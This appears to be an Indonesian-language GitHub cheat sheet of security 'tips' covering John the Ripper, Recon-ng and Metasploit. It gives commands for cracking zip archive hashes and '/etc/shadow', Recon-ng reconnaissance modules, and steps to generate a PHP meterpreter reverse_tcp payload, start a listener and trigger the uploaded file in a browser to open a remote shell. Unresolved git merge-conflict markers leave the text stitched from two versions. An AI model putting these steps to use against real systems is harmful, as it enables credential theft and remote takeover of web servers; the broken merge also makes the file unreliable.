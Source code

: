 # Trik & Tips Forensic
> Disusun oleh Hardiyanto

### Daftar Isi
<<<<<<< HEAD
	* [John the Ripper](#john-the-ripper)
	* [Recon-ng](#reconng)
	* [Msfvenom & Msfconsole](#msfvenom-msfconsole)
=======

* [John the Ripper](#john-the-ripper)
* [Recon-ng](#reconng)
>>>>>>> 4075b378f205da5f089411f42ab9b07e4292654f

#### John the Ripper

```
$ zip2john test.zip
```
```
$ zip2john test.zip > hash.txt
```
```
$ john -format:zip hash.txt
```
```
$ john hash.txt
```
```
john /etc/shadow
```

#### Recon-ng

Recon-Web

Required
```
pip install flask
pip install dicttoxml
pip install unicodecsv
pip install xlsxwriter
```

```
marketplace install all
```

Lihat daftar list
```
keys list
```

Menambahkan api
```
keys add shodan_api YOUR_API
```

Menambahkan workspace
```
workspaces create tes
```

Cek Daftar workspace
```
workspaces list
```

Pindah workspace 
```
workspaces load NAMA_WORKSPACE
```

Menambahkan domain
```
db insert domains
```

Melihat daftar domain
```
show domains
```

Melihat Daftar Module
```
modules search
```

Install Module
```
marketplace install NAMA_MODULE
```

Load module
```
modules load NAMA_MODULE
```
Module Shodan
```
 recon/locations-pushpins/shodan
```

Module host
```
recon/hosts-hosts/resolve 
recon/hosts-hosts/ipstack
```
Module domains-contacts
```
recon/domains-contacts/whois_pocs
recon/domains-contacts/pgp_search
```
Module domains-hosts
```
recon/domains-hosts/bing_domain_web 
recon/domains-hosts/brute_hosts
```
Module Interesting
```
discovery/info_disclosure/interesting_files
```

Module Web
```
recon/domains-hosts/builtwith
recon/domains-hosts/google_site_web 
```

Record
```
script record PATH
```
```
script record stop
```
Menjalankan Record
```
recon-ng -r PATH
```
Menyimpan output menggunakan spool
```
spool start
```
```
spool stop
```

#### Msfvenom & Msfconsole

<<<<<<< HEAD
File Upload
```
msfvenom -p php/meterpreter/reverse_tcp lhost=IP lport=4444 raw
```
Masuk Msfconsole
```
msfconsole
```
```
use exploit/multi/handler
```
```
set payload php/meterpreter/reverse_tcp
```
```
set lhost IP
```
```
set lport 4444
```
```
exploit
```

Masuk Browser jalankan file php yg berhasil di upload tadi di URL
=======
### Terima Kasih

>>>>>>> 4075b378f205da5f089411f42ab9b07e4292654f

